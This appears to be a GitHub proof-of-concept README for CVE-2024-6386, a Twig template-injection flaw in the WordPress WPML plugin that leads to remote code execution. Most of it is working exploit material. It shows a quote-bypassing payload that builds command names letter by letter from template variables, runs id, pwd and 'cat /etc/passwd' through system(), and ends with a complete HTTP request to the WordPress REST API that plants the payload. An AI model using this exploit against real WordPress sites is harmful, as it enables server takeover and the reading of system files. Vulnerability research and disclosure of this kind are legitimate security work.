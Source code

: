 
# CVE-2024-6386 - RCE via Twig SSTI in WPML

## PoC
[PoC on Python+Selenium](./poc/)

Detailed research in Russian: [CVE-2024-6386](https://teletype.in/@argendo/cve-2024-6386)

![PoC example](./poc_example.png)

## CVSS

**Base Score:** `9.9`

**Vector:**  `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`

## Summary

In [WPML](https://wpml.org) you are available to use specific [WordPress Shortcodes](https://codex.wordpress.org/Shortcode) that allows you to create macroses and render Twig templates too. So you can easily get an SSTI from it.

## Chain

### SSTI
For example, let's create a shortcode to exploit SSTI:
```
[wpml_language_switcher]
{{ 2*2 }}
[/wpml_language_switcher]
```
In this case we'll get `4` as a result of rendering our shortcode.

### RCE
Because of encoding all types of quotes to HTML by WordPress we aren't able to use typical payloads, such as: 
```
{{['id']|filter('system')}}
```

Nevertheless we can modify this payload to call OS commands from variables-letters such as: `(s = 's')`.

To do this we need to call some local variables such as:
- `css_classes`
- `languages`

First one will return us a string: `wpml-ls-statics-shortcode_actions wpml-ls`.
Second one returns an Array object of languages.

With help of this we can slice symbols we need and create our own alphabet.

So, here we make an alphabet: `[<space> ,a, c, i, d, s, y, t, e, m, p, w ]`

And yes we shoud concatenate `languages` with empty value to make a string with value `"Array"` from it.
```
{% set sp = css_classes|slice(33,1) %}
{% set a = css_classes|slice(10,1) %}
{% set c = css_classes|slice(13,1) %}
{% set i = css_classes|slice(12,1) %}
{% set d = css_classes|slice(23,1) %}
{% set s = css_classes|slice(6,1) %}
{% set y = languages|join|slice(4,1) %}
{% set t = css_classes|slice(9,1) %}
{% set e = css_classes|slice(24,1) %}
{% set m = css_classes|slice(2,1) %}
{% set p = css_classes|slice(1,1) %}
{% set w = css_classes|slice(0,1) %}
```

So after that we can concatenate our alphabet to payloads:
```
{% set system = s~y~s~t~e~m %}
{% set pwd = p~w~d %}
{% set id = i~d %}
{% set cat = c~a~t %}
{% set sl = [pwd]|map(system)|join|slice(0,1) %}
{% set passwd = c~a~t~sp~sl~e~t~c~sl~p~a~s~s~w~d %}
{{[id]|map(system)|join}}
{{[pwd]|map(system)|join}}
{{[passwd]|map(system)|join}}
```

## Burp Suite exploitation

### Command
```
POST /wp-json/wp/v2/posts/30?_locale=user HTTP/1.1
Host: vulned.com

{
    "id":30,
    "content":"<!-- wp:shortcode -->\n[wpml_language_switcher]\n{% set sp = css_classes|slice(33,1) %}{% set a = css_classes|slice(10,1) %}{% set c = css_classes|slice(13,1) %}{% set i = css_classes|slice(12,1) %}{% set d = css_classes|slice(23,1) %}{% set s = css_classes|slice(6,1) %}{% set y = languages|join|slice(4,1) %}{% set t = css_classes|slice(9,1) %}{% set e = css_classes|slice(24,1) %}{% set m = css_classes|slice(2,1) %}{% set p = css_classes|slice(1,1) %}{% set w = css_classes|slice(0,1) %}{% set system = s~y~s~t~e~m %}{% set pwd = p~w~d %}{% set cat = c~a~t %}{% set sl = [pwd]|map(system)|join|slice(0,1) %}{% set id = i~d %}{% set passwd = c~a~t~sp~sl~e~t~c~sl~p~a~s~s~w~d %}{{[id]|map(system)|join}}\n[/wpml_language_switcher]<!-- /wp:shortcode -->"
}
```
### Listing result
```
GET /?p=30 HTTP/1.1
Host: vulned.com
```


